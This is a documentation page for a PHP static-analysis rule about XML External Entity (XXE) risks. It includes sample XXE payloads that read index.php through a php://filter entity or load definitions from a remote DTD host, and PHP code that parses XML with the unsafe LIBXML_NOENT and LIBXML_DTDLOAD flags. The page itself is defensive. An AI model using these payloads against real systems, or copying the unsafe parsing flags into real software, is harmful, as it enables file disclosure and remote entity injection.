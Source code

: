 .. _security-nonetforxmlload:

.. _no-net-for-xml-load:

No Net For Xml Load
+++++++++++++++++++

  Simplexml and ext/DOM load all external entities from the web, by default. This is dangerous, in particular when loading unknown XML code.

Look at this XML code below : it is valid. It defines an entity ``xxe``, that is filled with a file, read on the system and base64 encoded.::

   
   
   &lt;!DOCTYPE replace [&lt;!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"&gt; ]&gt;
   <replace>&xxe;</replace>
   
   


This file could be processed with the following code : note, you can replace 'index.php' in the above entity by any valid filepath. 

 

Here, PHP tries to load the XML file, finds the entity, then solves the entity by encoding a file called ``index.php``. The source code of the file is not used as data in the XML file. 

At that point, the example illustrates how a XXE works : by using the XML `engine <https://www.php.net/engine>`_ to load external resources, and preprocessing the XML code. in fact, there is only one change to make this XML code arbitrarily injected :::

   
   
   &lt;!DOCTYPE replace [&lt;!ENTITY writer SYSTEM "https://www.example.com/entities.dtd"&gt; ]&gt;
   <replace>&xxe;</replace>
   
   


With the above example, the XML code is `static <https://www.php.net/manual/en/language.oop5.static.php>`_ (as, it never changes), but the 'xxe' definitions are loaded from a remove website, and are completely under the attacker control.

.. code-block:: php
   
   <?php 
       $dom = new DOMDocument();
       $dom->loadXML($xml, LIBXML_NOENT | LIBXML_DTDLOAD);
       $info = simplexml_import_dom($dom);
       
       print base64_decode($info[0]);
   ?>

See also `XML External Entity <https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20injection>`_,, `XML External Entity (XXE) Processing <https://www.owasp.org/index.php/XML_External_Entity_(XXE)_Processing>`_ and `Detecting and exploiting XXE in SAML Interfaces <https://web-in-security.blogspot.nl/2014/11/detecting-and-exploiting-xxe-in-saml.html>`_.


Suggestions
___________

* Strip out any entity when using external XML
* Forbid any network to the XML engine, by configuring the XML engine without network access




Specs
_____

+--------------+-------------------------------------------------------------------------------------------------------------------------+
| Short name   | Security/NoNetForXmlLoad                                                                                                |
+--------------+-------------------------------------------------------------------------------------------------------------------------+
| Rulesets     | :ref:`All <ruleset-All>`, :ref:`Changed Behavior <ruleset-Changed-Behavior>`, :ref:`Security <ruleset-Security>`        |
+--------------+-------------------------------------------------------------------------------------------------------------------------+
| Exakat since | 1.0.11                                                                                                                  |
+--------------+-------------------------------------------------------------------------------------------------------------------------+
| PHP Version  | All                                                                                                                     |
+--------------+-------------------------------------------------------------------------------------------------------------------------+
| Severity     | Major                                                                                                                   |
+--------------+-------------------------------------------------------------------------------------------------------------------------+
| Time To Fix  | Slow (1 hour)                                                                                                           |
+--------------+-------------------------------------------------------------------------------------------------------------------------+
| Precision    | High                                                                                                                    |
+--------------+-------------------------------------------------------------------------------------------------------------------------+
| Features     | xml                                                                                                                     |
+--------------+-------------------------------------------------------------------------------------------------------------------------+
| Available in | `Entreprise Edition <https://www.exakat.io/entreprise-edition>`_, `Exakat Cloud <https://www.exakat.io/exakat-cloud/>`_ |
+--------------+-------------------------------------------------------------------------------------------------------------------------+


